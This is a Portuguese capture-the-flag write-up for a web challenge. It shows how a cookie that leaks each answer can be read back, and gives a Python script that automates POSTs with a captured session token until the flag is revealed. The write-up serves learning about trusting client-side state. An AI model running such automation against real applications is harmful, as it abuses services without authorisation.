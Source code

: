 # WEB 50

**O Problema**

Marque 1337 pontos para conseguir a flag... talvez seja melhor "hackear" a aplicação..


A página apresentava um texto com o nome do jogador informando que ele deveria chega à 1337 pontos. Nessa página era apresentada uam
soma e a ideia era ir acertanod a soma até juntar os 1337 pontos

**A Resolução**

O próprio enunciado já sugeria de "hackear" a página. A primeira idéia  já foi criar um script que automatizasse a tarefa e a primeira coisa que pensei foi em usar o *curl*. Quando fiz a requisição na página para pegar o HTML vem a primeira falha, o retorno é somente as tags abaixo:

```html
<center></center>
```

Bom, com esse resultado precisamos determinar o que mais de informação é enviado na requisição. Quando o desafio é web eu geralmente já sigo uma regra para analisar o problema: código fonte, cookies, parâmetros submetidos.

Olhando o código fonte não encontramos nada demais. É um formulário HTTP simples, somente precisaremos tomar o cuidado de realizar o envio dos dados para uma página diferente da que é exibida com a soma a ser realizada:

```html
...
<form method='POST' action='valida.php'>
...
<input type='text' name='resultado'><br>
...
```
Quando verificamos os cookies, nesse caso no própio retorno do comando *curl*, temos um achado bem interessante:

```
< Set-Cookie: result=1551; expires=Thu, 03-Nov-2016 01:49:40 GMT; Max-Age=3600
```

Bom, um cookie chamado *resul*?! E sim, quando olhamos a página que foi exibida com esse cookie vemos que ele é o resultado da soma que precisamos enviar para ser validado. Então uma parte da chall ta morta, basta enviar o conteúdo do cookie *result* recebido, na próxima requisição. O ponto de atenção é: temos que enviar ele tanto nos cookies da requisição quanto no campo de dados, como valor do campo *resultado* do formulário.

OK, então já temos o resultado, que se não fosse o cookie seria preciso extrair a expressão da página para realizar o cálculo, já temos a página para validar, mas ainda tem um problema: como validar a resposta?! somente enviar a informação do resultado não garante a contabilização do acerto!!!

Nesse ponto não tem jeito, a forma é fazer pelo menos uma requisição manual, na página e analisar o que é enviado. Tem diversas formas de você fazer isso: mitmproxy, wireshark, extensões de navegador...Escolha a que preferir. Eu usei uma extensão do Chrome, chamada [Postman](https://www.getpostman.com/apps).

Com a captura habilitada fiz enviei uma requisição com o resultado e *voilà*, os cookies:

```
token=048dd3ec94979b395ef082e63ec70286; result=1773
```

Pronto, fazemos uma requisição com os cookies *token* e *result*, o campo *resultado*, e na resposta pegamos o próximo resultado, posta  e assim sucessivamente até completar os 1337 pontos. Então o código para fazer essas requisições fica assim:

``` python
#!/usr/bin/python3

import sys,requests,re


#CONSTANTS

PLAY_URL= 'http://162.243.187.35:8081/play.php'
VALIDATE_URL= 'http://162.243.187.35:8081/valida.php'
TOKEN= '048dd3ec94979b395ef082e63ec70286'

#REGEX TO GET FLAG
pattern = re.compile(r'Flag: (.*) Acerto')

if __name__ == '__main__':


    #Get the operation and the cookie which contains the result on first request
    req_page= requests.get(PLAY_URL,cookies={'token':TOKEN})

    match = pattern.search(req_page.text)
    flag = match.group(1)

    while flag == '********':

        resultado = req_page.cookies['result']

        req_page = requests.post(VALIDATE_URL,data={'resultado':resultado},cookies={'token':TOKEN,'result':resultado})

        match = pattern.search(req_page.text)
        flag = match.group(1)


    print("Flag: " + flag )
    sys.exit(0)
```

Algumas considerações:
 * Como a página de validação é diferente, ao realizar a requisição ela retorna 302 enviando novamente para a página com a próxima soma. Isso não interfere na execução da requisição quando usamos o módulo *requests* do python, mas caso utilize o *curl* ele não segue o redirecionamento sozinho. Para formas de realizar a requisição que não acompanhem o redirecionamento seu código deve realizar uma nova chamada na página para onde foi realizado o redirecionamento pegando assim o novo cookie com a próxima conta e o resultado.
 * Esse código quebra quando encontra a flag por conta da chamada no **match.group()** . Isso é culpa do H4kBoot, o autor da flag. Quando você chega no resultado a string da página não segue o formato que a expressão regular checa. Poderia corrigir no código, deixo pra quem tiver interesse. No caso desse problema isso não interfere para conseguir a flag, porque a página que é exibida no navegador utiliza sessão baseado no token e quando o código finalizar basta acessar a página no browser novamente.
